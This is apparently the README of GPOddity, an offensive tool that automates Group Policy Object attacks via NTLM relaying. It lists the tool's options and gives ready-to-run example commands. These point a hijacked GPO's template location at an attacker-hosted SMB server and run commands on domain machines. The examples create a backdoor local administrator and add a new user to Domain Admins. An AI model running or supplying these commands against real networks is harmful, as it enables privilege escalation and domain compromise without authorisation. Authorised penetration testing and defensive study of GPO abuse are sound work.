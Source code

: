 # GPOddity

The GPOddity project, aiming at automating GPO attack vectors through NTLM relaying (and more).

# Usage

```
podman build -t gpoddity .

podman run -it --name gpoddity gpoddity


 Usage: python3 ./gpoddity.py [OPTIONS]

╭─ Options ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --help          Show this message and exit.                                                                                                                                                  │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ General options ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ *  --domain            TEXT  The target domain [default: None] [required]                                                                                                                    │
│ *  --gpo-id            TEXT  The GPO object GUID without enclosing brackets (for instance, '1328149E-EF37-4E07-AC9E-E35920AD2F59') [default: None] [required]                                │
│ *  --username          TEXT  The username of the user having write permissions on the GPO AD object. This may be a machine account (for instance, 'SRV01$') [default: None] [required]       │
│    --password          TEXT  The password of the user having write permissions on the GPO AD object [default: None]                                                                          │
│    --hash              TEXT  The NTLM hash of the user having write permissions on the GPO AD object, with the format 'LM:NT' [default: None]                                                │
│    --dc-ip             TEXT  [Optional] The IP of the domain controller if the domain name can not be resolved. [default: None]                                                              │
│    --ldaps                   [Optional] Use LDAPS on port 636 instead of LDAP                                                                                                                │
│    --verbose                 [Optional] Enable verbose output                                                                                                                                │
│    --just-clean              [Optional] Only perform cleaning action from the values specified in the file of the --clean-file flag. May be useful to clean up in case of incomplete         │
│                              exploitation or ungraceful exit                                                                                                                                 │
│    --clean-file        TEXT  [Optional] The file from the 'cleaning/' folder containing the values to restore when using --just-clean flag. Relative path from GPOddity install folder, or   │
│                              absolute path                                                                                                                                                   │
│                              [default: None]                                                                                                                                                 │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ Malicious Group Policy Template generation options ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --command           TEXT             The command that should be executed through the malicious GPO [default: None]                                                                           │
│ --powershell                         [Optional] Use powershell instead of cmd for command execution                                                                                          │
│ --gpo-type          [user|computer]  [Optional] The type of GPO that we are targeting. Can either be 'user' or 'computer' [default: computer]                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ Group Policy Template location spoofing options ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --rogue-smbserver-ip           TEXT  The IP address or DNS name of the server that will host the spoofed malicious GPO. If using the GPOddity smb server, this should be the IP address of   │
│                                      the current host on the internal network (for instance, 192.168.58.101)                                                                                 │
│                                      [default: None]                                                                                                                                         │
│ --rogue-smbserver-share        TEXT  The name of the share that will serve the spoofed malicious GPO (for instance, 'synacktiv'). If you are running the embedded SMB server, do NOT provide │
│                                      names including 'SYSVOL' or 'NETLOGON' (protected by UNC path hardening by default)                                                                     │
│                                      [default: None]                                                                                                                                         │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ SMB server options ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --machine-name        TEXT                       [Optional] The name of a valid domain machine account, that will be used to perform Netlogon authentication (for instance, SRV01$). If      │
│                                                  omitted, will use the user specified with the --username option, and assume that it is a valid machine account                              │
│                                                  [default: None]                                                                                                                             │
│ --machine-pass        TEXT                       [Optional] The password of the machine account if specified with --machine-name [default: None]                                             │
│ --machine-hash        TEXT                       [Optional] The NTLM hash of the machine account if specified with --machine-name, with the format 'LM:NT' [default: None]                   │
│ --comment             TEXT                       [Optional] Share's comment to display when asked for shares [default: None]                                                                 │
│ --interface           TEXT                       [Optional] The interface on which the GPOddity smb server should listen [default: 0.0.0.0]                                                  │
│ --port                TEXT                       [Optional] The port on which the GPOddity smb server should listen [default: 445]                                                           │
│ --smb-mode            [embedded|forwarded|none]  [Optional] 'Embedded' SMB server will host an SMB server on this machine. 'Forwarded' will forward SMB traffic to a fake Domain Controller  │
│                                                  (requires a machine account associated with a DNS record pointing to the attacker machine. Generated GPT should be uploaded on the fake     │
│                                                  DC). 'None' will not host any SMB server (generated GPT should be uploaded on a writable SMB share in the domain)                           │
│                                                  [default: embedded]                                                                                                                         │
│ --empty-gpo                                      [Optional] By default, GPOddity will clone the target GPO and add a malicious immediate task. If this flag is specified, an empty GPO will  │
│                                                  be used instead of a clone of the legitimate one (can be useful for some edge cases in which immediate tasks will not integrate well with   │
│                                                  existing GPOs)                                                                                                                              │
│ --attacker-ip         TEXT                       [Optional] The IP of the attacker machine in the internal network (required for smb-mode 'forwarded')                                       │
│ --forwarded-ip        TEXT                       [Optional] The IP of the fake DC to which SMB traffic will be forwarded (required for smb-mode 'forwarded')                                 │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
```

# Examples

Below are some example commands taken from the article linked above.

> Exploiting a Computer GPO to add a local administrator. SMB mode is 'embedded': GPOddity will host the GPT on its embedded SMB server.
```
$ python3 gpoddity.py --gpo-id '46993522-7D77-4B59-9B77-F82082DE9D81' --domain 'corp.com' --username 'GPODDITY$' \
--password '[...]' --command 'net user synacktiv_gpoddity Password123! /add && net localgroup administrators synacktiv_gpoddity /add' \
--rogue-smbserver-ip '192.168.58.101' --rogue-smbserver-share 'synacktiv'
```


> Exploiting a User GPO to add a local administrator. SMB mode is 'none': GPOddity will create the malicious GPT, and you will then have to upload it to a writable domain share
```
$ python3 gpoddity.py --gpo-id '7B36419B-B566-46FA-A7B7-58CA9030A604' --gpo-type 'user' --smb-mode 'none' --domain 'corp.com' --username 'GPODDITY$' \
--password '[...]' --command 'net user user_gpo Password123! /add /domain && net group "Domain Admins" user_gpo /ADD /DOMAIN' \
 --rogue-smbserver-ip '192.168.58.102' --rogue-smbserver-share 'synacktiv'
```

> Exploiting a User GPO to add a local administrator. SMB mode is 'forwarded': you will have to add a DNS record pointing to GPOddity's machine, associated with a machine account. You will have to provide the IP address of a fake DC whose password is synchronized with the machine account, and upload the malicious GPT to said fake DC. For more information about this mode, see my Black Alps 2024 talk (available soon).
```
$ python3 gpoddity.py --gpo-id 'B12968FB-EEEE-404A-A583-101A2E249BF9' --domain 'corp.com' --username 'lowpriv' \
--password '[...]' --command 'whoami > C:\poc_forwarded.txt' --gpo-type 'user' --rogue-smbserver-ip 'gpoddity.corp.com' \
--rogue-smbserver-share 'synacktiv' --smb-mode 'forwarded' --attacker-ip '192.168.123.16' --forwarded-ip '192.168.125.245'
```

# About cleaning

One of the advantages of using GPOddity resides in the possibility to safely exploit GPOs, without altering legitimate GPT files, thus minimizing disruption risks in production environments. However, GPOddity still has to modify some attributes of the Group Policy Container files in order to temporarily spoof the GPT location. As a result, ensuring that the production environment remains functional supposes to revert those changes after exploitation.

By default and as explained in the article, GPOddity will do it for you by reverting any alteration performed on the GPC at the end of the exploit, when the user interrupts the program with CTRL+C. As a result, in standard conditions, you do not need to do anything to ensure everything is cleaned up.

However, if for some reason you are not able to exit GPOddity gracefully through a CTRL+C (process killed, network connection lost etc.), you can launch GPOddity with the '--just-clean' flag to perform cleaning actions in an independent manner.

This feature works in the following way. Each time GPOddity is run, the initial state of the GPO will be saved in a file under the path `cleaning/[GPO ID]/[timestamp].txt`. You can then restore all the values contained in this save file through the '--just-clean' flag. For instance, assume that you want to restore all the attributes of the GPO with ID '46993522-7D77-4B59-9B77-F82082DE9D81' to their values before running GPOddity on the 14th October 2023 at 08:08:44. You may run the following command:

```
$ python3 gpoddity.py --just-clean --domain 'corp.com' --gpo-id '46993522-7D77-4B59-9B77-F82082DE9D81' --username 'GPODDITY$' --password '[...]' --clean-file cleaning/46993522-7D77-4B59-9B77-F82082DE9D81/2023_10_14-08_08_44.txt
```

# Video demonstration

![GPOddity](assets/demo.gif)

